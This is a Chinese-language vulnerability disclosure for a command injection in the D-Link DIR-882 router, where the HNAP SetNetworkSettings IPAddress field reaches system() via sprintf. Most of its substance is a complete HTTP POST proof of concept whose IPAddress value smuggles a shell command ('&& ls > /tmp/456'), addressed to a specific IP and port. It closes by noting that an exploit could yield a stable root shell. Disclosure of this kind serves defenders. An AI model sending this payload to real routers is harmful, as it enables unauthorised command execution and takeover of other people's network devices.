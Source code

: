 # dlink dir 882路由器 存在命令注入漏洞

## 写在前面

• 厂商信息：https://www.dlink.com/

• 固件下载地址：https://tsd.dlink.com.tw/ddgo

## 1.影响版本

![image-20220914231359311](img/image-20220914231359311.png)

图1为固件版本信息

## 2.漏洞细节

![image-20220914231503977](img/image-20220914231503977.png)

程序通过/SetNetworkSettings/IPAddress获取到的内容传递给v6

![image-20220914231514093](img/image-20220914231514093.png)

之后将v6通过sprintf函数格式化进v39，通过system函数执行v39中的内容，存在命令注入漏洞

## 复现与POC

为了重现该漏洞，可遵循以下步骤

使用fat 仿真固件DIR882A1_FW130B06.bin

使用以下poc进行攻击

```jsx
POST /HNAP1/ HTTP/1.1
Host: 81.70.52.167:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "<http://purenetworks.com/HNAP1/SetNetworkSettings>"
HNAP_AUTH: 3FD4E69D96091F37A00F8FEC98928CB5 1649128376185
Content-Length: 633
Origin: <http://81.70.52.167:7018>
Connection: close
Referer: <http://81.70.52.167:7018/Network.html>
Cookie: SESSION_ID=2:1556825615:2; uid=LeaHzVaQ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="<http://www.w3.org/2001/XMLSchema-instance>" xmlns:xsd="<http://www.w3.org/2001/XMLSchema>" xmlns:soap="<http://schemas.xmlsoap.org/soap/envelope/>">
<soap:Body>
<SetNetworkSettings xmlns="<http://purenetworks.com/HNAP1/>">
	<IPAddress>&& ls > /tmp/456 &&echo 1</IPAddress>
	<SubnetMask>255.255.255.0</SubnetMask>
	<DeviceName>dlinkrouter3</DeviceName>
	<LocalDomainName></LocalDomainName>
	<IPRangeStart>1</IPRangeStart>
	<IPRangeEnd>254</IPRangeEnd>
	<LeaseTime>10080</LeaseTime>
	<Broadcast>false</Broadcast>
	<DNSRelay>true</DNSRelay>
</SetNetworkSettings>
</soap:Body>
</soap:Envelope>
```

![image-20220914231555487](img/image-20220914231555487.png)

图2 POC攻击效果

最后，您可以编写exp，这可以实现获得根shell的非常稳定的效果

 ![image-20220914231626945](img/image-20220914231626945.png)

 